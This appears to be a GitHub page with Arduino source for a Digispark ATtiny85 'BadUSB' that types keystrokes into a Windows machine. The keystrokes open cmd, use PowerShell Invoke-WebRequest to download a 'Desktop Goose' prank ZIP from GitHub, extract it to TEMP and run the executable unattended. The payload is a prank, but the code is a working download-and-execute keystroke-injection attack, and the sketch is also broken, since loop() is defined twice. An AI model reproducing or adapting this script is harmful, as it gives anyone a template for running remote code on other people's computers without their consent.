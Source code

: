 # Desktop-Goose
LINK

Arduino IDE (Digispark ATINY85)
Link ZIP:

#include "DigiKeyboardPtBr.h"

void setup() {
  pinMode(0, OUTPUT); 
  pinMode(1, OUTPUT);     
}

void loop() {  
  pisca_led(100);
  
  DigiKeyboardPtBr.sendKeyStroke(0);
  DigiKeyboardPtBr.delay(100);

  // Abrir Executar (Win + R)
  DigiKeyboardPtBr.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboardPtBr.delay(100);

  // Abrir CMD
  DigiKeyboardPtBr.println("cmd");
  DigiKeyboardPtBr.delay(500);
  DigiKeyboardPtBr.sendKeyStroke(KEY_ENTER);
  DigiKeyboardPtBr.delay(3000);   

  // Comando PowerShell para baixar o ZIP do Desktop Goose v0.31
  DigiKeyboardPtBr.print(
    "powershell -Command \"Invoke-WebRequest -Uri 'https://github.com/MrNuno/Desktop-Goose/raw/refs/heads/main/DesktopGoose%20v0.31.zip' -OutFile $env:TEMP\\goose.zip\""
  );
  DigiKeyboardPtBr.sendKeyStroke(KEY_ENTER);
  DigiKeyboardPtBr.delay(20000); // aguarda download (aumente se internet for lenta)

  // Descompactar o ZIP para a pasta TEMP
  DigiKeyboardPtBr.print(
    "powershell -Command \"Expand-Archive -Path $env:TEMP\\goose.zip -DestinationPath $env:TEMP -Force\""
  );
  DigiKeyboardPtBr.sendKeyStroke(KEY_ENTER);
  DigiKeyboardPtBr.delay(5000); // espera descompactar

  // Executar o GooseDesktop.exe extraído
  DigiKeyboardPtBr.print("start \"\" \"%TEMP%\\DesktopGoose v0.31\\GooseDesktop.exe\"");
  DigiKeyboardPtBr.sendKeyStroke(KEY_ENTER);

  // Piscar LEDs indicando fim
  pisca_led(1000);

  // Loop vazio (não repetir)
  for(;;) { }
}

void pisca_led(int velocidade) {  
  for (int inicio = 1; inicio <= 10; inicio++) {
    digitalWrite(0, HIGH); 
    digitalWrite(1, HIGH); 
    DigiKeyboardPtBr.delay(velocidade);  
    digitalWrite(0, LOW); 
    digitalWrite(1, LOW); 
    DigiKeyboardPtBr.delay(velocidade);  
  } 
}


void loop() {
  // Não precisa repetir
}


